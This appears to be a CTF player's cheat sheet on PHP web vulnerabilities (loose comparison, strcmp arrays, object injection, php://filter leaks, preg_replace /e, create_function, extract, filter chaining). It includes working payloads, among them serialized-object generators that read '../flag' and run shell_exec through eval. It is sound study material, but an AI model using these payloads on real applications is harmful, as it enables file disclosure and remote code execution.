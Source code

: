 # PHP vulnerabilities

## Magic hashes

- Vuln is in comparison of hashes with == instead of ===
- Hashes that start with 0e is taken as integer 0 exponent number behind
- '0e462097431906509019562988736854' == '0' is true
> The digits following 0e must be base 10!!

## strcmp()

- strcmp(array(), 'asdf') == NULL == 0
- To provide array in GET/POST, do password[]=a

```
username=admin
password[]=%22%22
```

## Injecting with different types

- take note of == vs ===
- === ensures its the same type
- can take advantage of this by injecting an array a[]=''
- Evals to null

## Hash collision with password_verify function
- null byte in hash will cause the rest of the hash to be truncated (shortened)
- easier to find hash starting with xxx00 which would collide

## Object injection
- To perform, there must be an existing class that calls a magic method that usually starts with `__xxxx` 
- when object is deserialized, you can basically create your own object with and set the values of the object properties
- the functions defined in the original object is called and executed on your object with your specified values 

### Example Payload Generator
```php
class access_log
{
	public $log_file = "../flag";
}
print(urlencode(base64_encode(serialize(new access_log()))))
```

That was for this vulnerable code
```php
class access_log
{
	public $log_file;
	function __toString() {
		return $this->read_log();
	}
	function read_log() {
		return file_get_contents($this->log_file);
	}
}
try{
  $perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
  $g = $perm->is_guest();
  $a = $perm->is_admin();
}
  catch(Error $e){
  die("Deserialization error. ".$perm);
}
```

### Another Example of PHP Object Serialisation Vulnerabilities

```php
// Generates a payload: Please identify your entrypoint (ie where is it unserialised)
class User {
	public $name;
	function set_name($name) {$this->name = $name;}
	function get_name() {return $this->name;}
}

class User2 {
	public $name;
	function set_name($name) {$this->name = $name;}
	function get_name() {return eval($this->name);}
}

$userobj = new User2();
$userobj->set_name("return shell_exec('cat flag');");
echo base64_encode(serialize($userobj));
```


## Leaking source code with file=something
- `file=php://filter/convert.base64-encode/resource=filename.php`
- note that sometimes `.php` maybe already appended and in that case remove `.php` from payload

## Code execution using `preg_replace` regex `/e` modifier
- /e modifier would cause `preg_replace` to execute stuff that has been replaced, 2nd parameter of `preg_replace`
- One can inject the /e modifier using null bytes or other stuff
- Then inject code to be executed
- Note that `\\1` is regex to reference the first bracketed expression. Often seen in php `preg_replace` 2nd param. Basically a free injection spot but payload is filtered by the replaced chars

## Vulnerability with `stripslashes`
- un-quotes all C-like backslashes
- which means we can use hex representations of letters and stuff 
- "\x41\x41\x41" -> "AAA"
- Remember to escape the backslash so that the string received is `\x41\x41\x41`, without escaping is basically sending "AAA" which is pointless

## PHP `create_function` vuln
- `create_function` internally uses eval
- how it works is that it crafts a string based on the input params
- then evals that whole string to create a function
- this allows us to inject stuff to eval other things and get RCE

## extract()
- This function overrides the original namespace, allowing for control of any arbitrary variable at the time of calling the function. This is very handy for bypassing certain checks or inducing some vulnerable PHP errors.

## unserialize()

Similar to Python's 

PHP's serialisation is quite stupid, just change the value itself and edit the string length.

## PHP Filter Chaining

Basically, if any raw input is passed directly into `file_get_contents()`, there is a possibility that:  

1. Directory Traversal (ofc)
2. PHP Filter Chaining Attack

The attack works through the [`php://` wrappers](https://www.php.net/manual/en/wrappers.php.php) which allows direct modification to the input stream.

> Example Challenge: Paywall idekCTF 2022 Web

Refer to https://www.synacktiv.com/en/publications/php-filters-chain-what-is-it-and-how-to-use-it.html and https://github.com/synacktiv/php_filter_chain_generator.git